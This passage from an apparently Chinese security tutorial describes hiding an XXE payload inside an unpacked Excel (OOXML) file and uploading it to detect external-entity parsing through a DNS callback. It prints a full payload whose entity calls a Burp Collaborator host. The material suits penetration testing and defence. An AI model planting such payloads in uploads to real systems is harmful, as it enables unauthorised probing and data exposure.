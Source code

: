 ## 技巧扩展

在之前看到一个小技巧这里也做个简单的补充，在 Microsoft Office 从 2007 版本中引入了一种名为 Office Open XML(OOXML) 的文件格式，这个格式基于 ZIP 文件格式并且包含了许多 XML 文件来描述工作簿数据、元数据和文档信息，我们可以通过将 Excle 解压并在其中插入 XXE 利用载荷并找寻可以上传 Excel 的地方实现漏洞的检测和利用，例如：  
[![](assets/1706060044-293b08e46797c272dc580f2107552771.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133747-8a75248a-b9b1-1.png)  
随后改造 excel 文件

[![](assets/1706060044-c9399534704db634d0bc3d2ee4062d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133808-97062a82-b9b1-1.png)

随后将以下内容插入第 2 行和第 3 行，SYSTEM 后面自己添加相对应的 dns 记录均可

```bash
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://1rt3nfjp8y8m05ul8ql8wp0k7bd21r.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```

[![](assets/1706060044-cb3b147a674153c7eec2a378d1d26d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133829-a33b0f48-b9b1-1.png)

[![](assets/1706060044-3696abf0f5f1b59e13bf02ddf8dfb6b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133838-a8d5fb5c-b9b1-1.png)  
添加好后直接上传 Excel 使其进行在线解析，查看此时 dns 是否又记录即可，目前很多新版本已经对外部解析进行了禁用处理，但是作为一种思路去进行尝试
